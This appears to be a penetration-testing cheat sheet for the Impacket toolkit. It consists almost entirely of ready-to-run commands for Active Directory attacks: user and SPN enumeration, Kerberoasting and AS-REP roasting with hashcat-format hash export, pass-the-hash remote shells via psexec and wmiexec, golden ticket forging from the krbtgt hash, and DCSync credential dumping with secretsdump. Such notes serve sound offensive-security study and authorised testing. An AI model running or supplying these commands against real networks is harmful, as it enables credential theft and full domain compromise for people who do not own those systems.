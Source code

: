# Impacket

## Enumeration

{% hint style="info" %}
**-format hashcat to export a formated hash**
{% endhint %}

### **Get AD users**

```csharp
python3 GetADUsers.py -all -k -no-pass -dc-ip <DC_IP> Domain.local/Administrator
```

### Get SPN users

#### with a ticket

```csharp
GetUserSPNs.py -k -no-pass -dc-ip <DC_IP> Domain.local/Administrator
```

#### with a password

```csharp
GetUserSPNs.py -request -dc-ip <DC_IP> Domain.local/Administrator
```

### Account witch doesn't require Kerberos Authentication

```csharp
./GetNPUsers.py -dc-ip 10.110.0.222 -request 'crook.badcorp.local/' -format hashcat
```

## File server

```csharp
sudo ./smbserver.py Test /tmp -smb2support -user polo -password test123 
```

## Psexec

```csharp
./psexec.py -hashes <ntlm hash:ntlm hash> Administrator@<HOSTNAME>

# or without password (kerberos)

./psexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Wmiexec

{% hint style="warning" %}
As opposite to psexec which provides NT LOCAL/System shell, wmiexec allows to keep the requested user context, i.e. Domain\Administrator will get an Domain\Administrator shell.
{% endhint %}

```csharp
./wmiexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Kerberos Golden Ticket

### Request a TGT

```csharp
./ticketer.py -nthash <KRBTGT NTLM HASH> -domain-sid <DOMAIN SID> -domain <MYDOMAIN.LOCAL> Administrator
```

### Import the TGT

```csharp
export KRB5CCNAME=krb5cc_91801115_mine
```

### Connect using the ticket

```csharp
./psexec.py CROOK.BADCORP.LOCAL/Administrator@10.110.0.222 -k -no-pass
```

### DSYNC

```csharp
./secretsdump.py crook.badcorp.local/User:Password@10.110.0.222
```

## MSSQLclient.py

```csharp
./mssqlclient.py user@server -windows-auth
```

